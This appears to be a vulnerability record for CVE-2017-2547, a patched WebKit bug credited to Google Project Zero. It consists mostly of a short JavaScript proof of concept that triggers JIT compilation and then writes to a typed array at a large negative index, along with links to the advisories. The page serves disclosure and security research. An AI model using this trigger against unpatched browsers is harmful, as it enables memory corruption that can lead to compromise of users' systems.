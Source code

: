 # CVE-2017-2547

- Fix: May 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function f() {
    let arr = new Uint32Array(10);
    for (let i = 0; i < 0x100000; i++) {
        parseInt();
    }
    arr[8] = 1;
    arr[-0x12345678] = 2;
}

f();
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207804)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1220)
